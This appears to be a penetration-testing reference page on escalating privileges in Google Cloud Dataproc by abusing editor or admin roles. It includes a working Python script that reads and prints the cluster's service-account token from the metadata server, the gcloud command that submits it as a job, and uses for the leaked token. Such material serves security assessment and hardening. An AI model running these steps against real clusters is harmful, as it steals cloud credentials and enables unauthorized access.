 # GCP Dataproc Privilege Escalation

## Dataproc Roles and Privilege Escalation

Google Cloud Dataproc roles like roles/dataproc.editor and roles/dataproc.admin grant significant permissions over Dataproc resources. If these roles are assigned to a compromised user or service account, they can be abused to escalate privileges by leaking sensitive metadata tokens or accessing other GCP resources.

## Key Permissions in Dataproc Roles

roles/dataproc.editor - Modify Dataproc jobs. Submit PySpark, Spark, Hadoop, and other job types to a cluster. Access job logs and configurations. Interact with associated GCP services like Cloud Storage and BigQuery.

roles/dataproc.admin - Full control over Dataproc clusters, including creating, deleting, and managing clusters.

These permissions make both roles highly sensitive and dangerous if misused.


## Privilege Escalation via Metadata Token Leaking

By abusing the permissions granted by roles/dataproc.editor or roles/dataproc.admin, an attacker can: 

- Submit a job to a Dataproc cluster.

- Use the job to access the metadata server.

- Leak the service account token used by the cluster.

### Example Script for token leaking

The following script demonstrates how an attacker can submit a job to a Dataproc cluster to leak the metadata token:

import requests

# Metadata server URL to fetch the access token

```
metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
    try:
        response = requests.get(metadata_url, headers=headers, timeout=5)
        response.raise_for_status()
        token = response.json().get("access_token", "")
        print(f"Leaked Token: {token}")
        return token
    except Exception as e:
        print(f"Error fetching metadata token: {e}")
        return None

if __name__ == "__main__":
    fetch_metadata_token()
```

### Steps to exploit

```
gcloud dataproc jobs submit pyspark gs://<bucket-name>/fetch_metadata_token.py \
    --cluster=<cluster-name> \
    --region=<region>
```
### Use the Leaked Token

The leaked token can be used to:

- Access GCP APIs and resources (depending on the token’s permissions).
- Enumerate resources such as Cloud Storage buckets, BigQuery datasets, and more.
- Potentially escalate privileges further if the token has high-level permissions (e.g., roles/owner)
